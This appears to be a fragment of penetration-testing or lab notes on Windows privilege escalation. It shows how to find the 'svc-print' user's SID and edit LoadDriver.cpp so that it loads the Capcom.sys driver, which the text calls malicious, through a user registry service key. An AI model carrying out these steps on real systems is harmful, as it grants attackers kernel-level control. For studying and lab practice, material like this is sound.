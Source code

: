 # Loading the driver

Check the SID of a current user.\
`Get-ADUser -Identity 'svc-print' | select SID`

Edit in the *LoadDriver.cpp* :

`PCWSTR pPathSource = L"C:\\Users\\svc-print\\Desktop\\Capcom.sys";`\
`PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";`

-------------------------------------------

**pPathSource** - path the the Capcom.sys malicious driver.\
**pPathSourceReg** - new service in the registry.
